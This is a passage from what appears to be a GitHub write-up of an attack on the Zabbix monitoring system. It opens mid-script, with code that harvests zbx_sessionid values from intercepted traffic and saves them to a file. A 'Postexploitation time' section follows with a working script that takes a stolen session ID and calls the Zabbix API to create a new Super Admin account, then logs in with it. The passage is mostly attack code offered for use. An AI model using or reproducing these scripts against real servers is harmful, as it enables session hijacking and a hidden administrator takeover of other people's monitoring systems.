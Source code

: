 ```python
                m = re.search("(zbx_sessionid.*)", value)
                if m:
                    str = m.group(0)
                    k = re.split(r'\W+', str)
                    print ("session_id is :")
                    print (k[1])
                    ####Saving zbx_sessionid in file
                    saved_zbxssids = open('zbx_sessionids.txt','a')
                    saved_zbxssids.write('\n')
                    saved_zbxssids.write(k[1]) 
                    saved_zbxssids.write('\n')
                    saved_zbxssids.close()
                    print ("zabbix session id saved in file zbx_sessionids.txt")
                else:
                    pass
            else:
                pass
    except KeyboardInterrupt:
        s.close()
```

So, we're done. You happy now?

<a href="url"><img src="https://image.prntscr.com/image/OwL1xGzxTFuCwuA3NI6tgQ.png" align="justify" width="480"></a>

# Postexploitation time

It's time to remove the shackles and create account with the privileges of the administrator, so as not to depend on someone else's.
The following script will help us:

```python
import json
import requests
from pyzabbix import ZabbixAPI
#api_address="http://192.168.56.102/zabbix/api_jsonrpc.php"
api_address=raw_input("enter correct URL to api_jsonrpc.php, like http://192.168.56.102/zabbix/api_jsonrpc.php"": \n")
zbx_sessionid= raw_input("enter zbx_sessionid: \n")
user= raw_input("enter username: \n")
password= raw_input("enter password: \n")
url = api_address
headers = {'Content-type': 'application/json'}
data = {"jsonrpc": "2.0", "method": "user.create", "params": {
    "alias": user, "passwd": password, "type": "3", "usrgrps": [
        {"usrgrpid": "7"}], },
        "auth": zbx_sessionid,
        "id": 1
        }
answer = requests.post(url, data=json.dumps(data), headers=headers)
print(answer)
response = answer.json()
print(response)
###Using pyzabbix to connect whith created user creds
print ("testing user parameters:")
zapi = ZabbixAPI(api_address)
zapi.login(user, password)
print("Connected to Zabbix API Version %s" % zapi.api_version())
```
